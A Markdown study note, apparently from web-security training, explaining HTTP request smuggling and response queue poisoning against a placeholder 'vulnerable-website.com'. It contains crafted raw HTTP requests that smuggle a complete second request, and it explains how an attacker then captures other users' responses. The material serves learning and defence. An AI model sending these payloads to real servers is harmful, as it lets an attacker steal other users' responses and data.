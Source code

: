 The TE back-end server interprets the following request in this way:
```http
Request 1:
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

Request 2:
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: v

Request 3 (not valid, so closing the connection):
ulnerable-website.com
```

This can be easily fixed by smuggling a **complete request**:
```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

>[!danger]
>When you smuggle a complete request, the front-end server still thinks it only forwarded a single request. On the other hand, the back-end sees two distinct requests, and will send two responses accordingly. The first response is bounded to the first request and forwarded to the client. **The unexpected second response is held in a queue on the connection between the front-end and back-end.** 
>
>When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.
>
>Once the response queue is poisoned, the attacker can just send an arbitrary request to capture another user's response.
>